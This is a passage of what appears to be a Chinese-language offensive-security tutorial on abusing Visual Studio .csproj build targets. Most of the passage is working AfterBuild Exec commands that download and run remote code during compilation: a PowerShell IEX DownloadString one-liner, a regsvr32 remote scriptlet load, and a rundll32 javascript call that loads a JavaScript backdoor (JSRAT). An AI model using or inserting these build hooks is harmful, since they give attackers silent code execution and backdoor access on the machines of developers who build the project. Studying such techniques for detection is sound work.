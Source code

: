 ```
start-process calc.exe

```

上传至github  
使用powershell来下载执行

.csproj文件修改为：

```
<Target Name="AfterBuild">
    <Exec Command="powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/test/master/calc.ps1');"/>
  </Target>

```

执行如图：

![Alt text](http://drops.javaweb.org/uploads/images/b14c548dec56701c3fd17cf931edcb011959db94.jpg)

2、在编译过程中调用regsvr32.exe
----------------------

添加代码如下：

```
<Target Name="AfterBuild">
    <Exec Command="regsvr32.exe /u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"/>
  </Target>

```

使用regsvr32会在控制台输出报错提示权限不够，但依然可以成功执行命令，如图

![Alt text](http://drops.javaweb.org/uploads/images/2752891b756e919e8a2fd4ef1c30e898eaa2ba1f.jpg)

3、在编译过程中运行JSRAT
---------------

使用rundll32

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

```

`两个""`中间无法再使用`"`，所以要用`&quot;`来替代`"`优化的代码如下：

```
<Target Name="AfterBuild">
    <Exec Command="rundll32.exe javascript:&quot;\..\mshtml,RunHTMLApplication &quot;;document.write();GetObject(&quot;script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test&quot;)"/> 
</Target>

```
